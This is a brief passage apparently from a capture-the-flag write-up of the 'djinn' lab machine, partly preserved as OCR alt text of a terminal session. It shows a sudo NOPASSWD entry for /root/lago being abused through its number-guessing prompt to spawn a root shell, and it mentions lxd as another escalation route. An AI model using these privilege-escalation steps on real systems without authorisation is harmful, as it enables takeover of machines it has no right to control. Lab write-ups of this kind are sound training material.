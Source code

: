 strings /usr/bin/genie

<img src="diginn/media/image16.png" style="width:5.95833in;height:5.2in" alt="# exit sudo -l Matching Defaults entries for sam on djinn: env_reset, mail_badpass, : /usr/l ocal/bin\ : /usr/ User sam may run the following commands on djinn: (root) NOPASSWD: /root/lago samadjinn:-$ sudo -u root /root/lago What do you want to do ? 1 - Be naughty 2 - Guess the number 3 - Read some damn files 4 - work Enter your choice: 2 Choose a number between 1 to 100: Enter your number: num # is /bin/sh: 1 : is: not found # id uid=ø(root) gid=ø(root) groups=ø(root) " />

also we can use lxd to esclate privilege
